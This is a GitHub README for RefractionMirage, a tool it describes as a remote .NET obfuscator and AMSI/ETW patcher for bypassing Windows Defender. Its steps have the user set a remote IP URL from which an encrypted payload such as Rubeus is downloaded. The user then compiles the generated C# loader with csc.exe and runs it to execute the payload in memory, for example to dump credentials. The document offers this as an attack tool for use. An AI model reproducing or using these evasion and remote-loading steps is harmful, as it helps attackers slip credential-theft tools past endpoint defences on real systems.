

# RefractionMirage
Remote dynamic .NET obfuscator and AMSI/ETW patch tool for bypassing Defender


## 1. Install
```sh
git clone https://github.com/ZumiYumi/RefractionMirage
```
## 2. Modify Variables
```sh
cd RefractionMirage; nano refractionmirage.py 

# Replace and modify below as needed
# LINE 47
#     "http://10.10.15.170/net_binary_enc.bin" # UPDATE THE IP
# LINE 230
#    NET_BINARY_PATH = "net_binary.exe" # UPDATE THIS PATH TO RUBEUS.EXE for example
```

## 3. Run Loader and Compile
```sh
python refractionmirage.py

# EXAMPLE OUTPUT
# [+] Encrypted net_binary -> net_binary_enc.bin
# [+] AES Key (base64): JgvYTsO5VSARlgK1lK+fgOfjNERYY84mbCzveHU6Xao=
# [+] AES IV (base64): w/V6zekd/eHr3sYIkZ3R4A==
# [+] Obfuscated C# loader written to refractionmirage.cs
# [+] XOR key for string obfuscation: 85

# [*] Next steps:
#    1. Host net_binary_enc.bin at http://YOUR.IP/net_binary_enc.bin
#    2. Compile the C# loader:
#       C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:x64 /out:RefractionMirage.exe refractionmirage.cs
#    3. Run EvilLoader.exe ARGUMENTSHERE
```
You can compile as above instructions, or just by copying refractionmirage.cs and pasting it in Visual Studio.

## Demo
```powershell
# generate dynamic cs file
python refractionmirage.py

# compile the cs file
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:x64 /out:RefractionMirage.exe refractionmirage.cs

# execute the remote loader to run rubeus (or whatever .NET binary)
.\RefractionMirage.exe dump

```


